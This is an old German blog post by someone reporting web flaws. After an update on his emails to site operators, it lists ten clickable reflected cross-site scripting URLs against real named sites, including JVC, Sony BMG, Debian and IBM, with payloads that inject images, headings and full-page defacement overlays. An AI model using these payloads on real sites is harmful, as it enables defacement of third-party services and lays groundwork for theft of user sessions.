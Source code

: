 <html><body><p>Und hier sind zehn weitere nette Cross Site Scriptings, unter anderem ein paar namhafte Hardware Hersteller und Software-Giganten...<br>
Aber zunächst eine kleine Statusmeldung wegen den alten Meldungen:<br>
Auf Mail Nummer 1 kamen keine neuen Antworten, auf Mail Nummer 2 erhielt ich ein BOUNCE von RTL, deren Server sei nicht für Mails an Clipfish.de zuständig (laut DNS ist er das), ein Auto-Reply von hamburg.de und tatsächlich hat es Andi von netsplit.de als einziger Mensch geschafft meine Mail zu lesen, zu verstehen und zu Herzen zu nehmen. Der Fehler ist behoben, un dich erhielt einen netten Gruß und Dank per Mail. An dieser Stelle deswegen auch Dank an Andi für das Supporten von uns kleinen IRC-Netzwerken, aber ich glaube er hat in meiner formellen Mail gar nicht erkannt, dass er mich eigentlich kennt ;-)<br>
<br>
Jaja, ihr wollt Links, HIER:<br>
<br>
<a href="http://jdl.jvc-europe.com/search.php?search_keywords=%3Cbr%3E%3Cimg%20src=http://www.vidsonix.com/vidsonixnew/snovamd.gif%3E%3Cbr%3E%3Ch1%3EGreetz%20from%20Vidsonix%3C/h1%3E&amp;search_type=product&amp;x=0&amp;y=0" target="_blank">jvc-europe.com</a><br>
<a href="http://real.de/container/kundenservice,detailsuche.php?svSearchValue=%22%3E%3Cbr%3E%3Cimg%20src=http://aldi.de/aldi_sued_logo.gif%3E%3Ch1%3EALDI%20ist%20besser!!!%3C/h1%3E&amp;cont=kundenservice,detailsuche&amp;svQuicksearch=1" target="_blank">real.de</a><br>
<a href="http://www.sonybmg.de/artists.php?surftipps=%23&amp;artist=%23&amp;searchartist2=%22%3E%3Cdiv%20style=position:fixed;z-index:999;top:0px;left:20px;width:1500px;height:1500px;color:red;background-color:white;font-size:32pt%3E%3Cbr%3EDRM%20ist%20SCHEISSE!%3Cbr%3E%3Cbr%3ECreative%20Commons%20f%26uuml%3Br%20ALLE!%3C/div%3E" target="_blank">sony-bmg.de</a><br>
<a href="http://buildd.debian.org/build.php?pkg=%3Cimg%20src=http://img.microsoft.com/global/834d62a5-3d8f-4ee8-8b7f-f5f6dcf9728b.gif%3E" target="_blank">debian.org</a><br>
<a href="http://www-307.ibm.com/pc/support/site.wss/document.do?lndocid=%3Cimg%20src=%22http://www.microsoft.com/library/toolbar/3.0/images/banners/ms_masthead_ltr.gif%22%3E" target="_blank">ibm.com</a><br>
<a href="http://www.linspire.com/search_results.php?q=%5C%22%3E%3Ch1%3EUse%20the%20better%20OS:%20Debian%3C%22" target="_blank">linsprire.com</a><br>
<a href="http://finanzen.sueddeutsche.de/search.php?search=%3Ch1%3EBILD%20Leser%20wissen%20NiX!%3C/h1%3E%3Cimg%20src=http://www.bild.t-online.de/BTO/System/Bilder/logo.gif%3E%3Cbr%3E" target="_blank">sueddeutsche.de</a><br>
<a href="http://www1.medion.de/site/service_~u~_support/treiber_~u~_updates/?param=%3Cbr%3E%3Ch1%3EGute%20Laptops:%3C/h1%3E%3Cimg%20src=%22http://www.rucigaj.com/blog/wp-content/uploads/2006/03/ibm-thinkpad-t22-logo18.png%22%3E%3Cbr%3E&amp;op=search&amp;lang=de&amp;type=MED" target="_blank">medion.de</a><br>
<a href="http://teufel.de/de/Suche/index.cfm?search=%3Ch1%3ESorry,%20Teufel%20ist%20besser,%20aber%20das%20ist%20XSS:%3C/h1%3E%3Cimg%20src=%22http://www.magnat.de/image/logo_magnat.gif%22%3E%3Cbr%3E&amp;cfaction=suchen" target="_blank">teufel.de</a><br>
<a href="http://www.msi-computer.de/suche.php?suchtext=%22%3E%3Ch1%3EMSI%20ist%20gut,%20ASUS%20ist%20besser!%3C/h1%3E%3Cimg%20src=http://www.asus.de/490/images/public/asus_above_01.jpg%3E%3Cbr%3E" target="_blank">msi-computer.de</a><br>
<br>
Gleich mal wieder eine nette Mail rausschicken und auf die BOUNCEs freuen.<br>
Schönen Sonntag-Abend noch.<br>
<br>
PS: Vielen Dank an den netten Kölner, der XSS in meinem Gästebuch ausprobiert hat. htmlspecialchars() ist sowas von seKure ;-)</p></body></html>